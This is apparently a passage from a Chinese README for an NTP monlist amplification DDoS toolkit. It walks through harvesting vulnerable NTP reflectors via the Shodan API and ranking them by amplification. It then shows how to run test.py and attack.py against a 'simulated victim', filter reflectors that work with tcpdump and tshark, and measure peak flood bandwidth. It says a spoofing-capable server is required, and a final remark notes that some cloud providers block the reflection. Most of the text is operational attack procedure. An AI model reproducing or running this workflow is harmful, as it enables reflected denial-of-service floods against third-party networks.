


> 需要有一台ISP没做源地址验证，支持IP Spoof的服务器。很难很难找，但是我有，但是为了防止滥用，就不公开了（doge)。如果有需要的话，那就自己慢慢交学费吧。
>
> 还需要shodan的API，这边提供了shodan寻找有monlist漏洞的ntp服务器技巧，我是用会员API KEY写的脚本，非会员的话就修改一下search.py中的search_and_save函数


```
# 从shodan中下载ntp 服务器清单
python search.py

# 查找ntp放大倍率高的服务器
python top.py
```


跑出一份top.txt后，但是实际上top.txt中的ntp服务器很多依然是不可用的，需要将top.txt同时上传到攻击机和模拟受害机实测一下

```
#模拟受害机
tcpdump -i eth0 udp -w 1.cap

#攻击机
python3 test.py

#模拟受害机，查看抓包的结果。（顺序）输出所有在1.cap中出现次数超过10次且同时存在于top.txt中的ip
tshark -r 1.cap -T fields -e ip.src -Y 'ntp' | sort | uniq -c | sort -n | awk '$1 > 10' | grep -F -f top.txt | awk '{ print $2 }' > final.txt

```


测试峰值带宽：

```
#模拟受害机
tcpdump -i eth0 udp -w 2.cap

#攻击机
python3 attack.py
```

2.cap用wireshark打开：统计—>I/O图表，Y轴改成Bytes，就可以测算峰值带宽了



PS：测试阿里/腾讯服务器貌似不能成功，存在 NTP 的反射防护策略。抓包了一下攻击流量（腾讯云服务器运行`nmap -sU -pU:123 -Pn -n --script=ntp-monlist <存在monlist漏洞的ntp服务器ip>`)，可以看到返回的ip是内网的ip。



